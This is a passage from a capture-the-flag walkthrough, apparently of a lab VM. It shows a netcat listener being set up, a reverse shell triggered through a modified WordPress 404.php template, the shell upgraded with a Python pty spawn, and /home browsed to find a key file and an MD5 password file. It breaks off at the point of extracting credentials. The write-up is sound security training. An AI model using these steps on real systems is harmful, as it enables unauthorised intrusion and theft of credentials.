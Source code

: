 4. **Updating and Running the Shell**:  

Save the modified template and set up a listener on your system using the following command:

```
nc -lvnp 1992
```

Visit the URL: `http://192.168.1.5/wp-admin/404.php`. This triggers the reverse shell and connects back to your listener.

```bash
root@neo ~# nc -lvnp 1992
listening on [any] 1992 ...
connect to [192.168.1.8] from (UNKNOWN) [192.168.1.5] 34127
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 17:51:31 up 38 min,  0 users,  load average: 0.04, 0.04, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

**Stabilizing the Shell**:  

To gain a more stable shell, spawn a TTY shell using Python:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

### Exploring the System

1. **Navigating the Home Directory**:  
    Check the contents of the `/home` directory to find user data:

```bash
daemon@linux:~$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt	password.raw-md5
```

2. **Extracting Credentials**:  
Attempt to view the files:
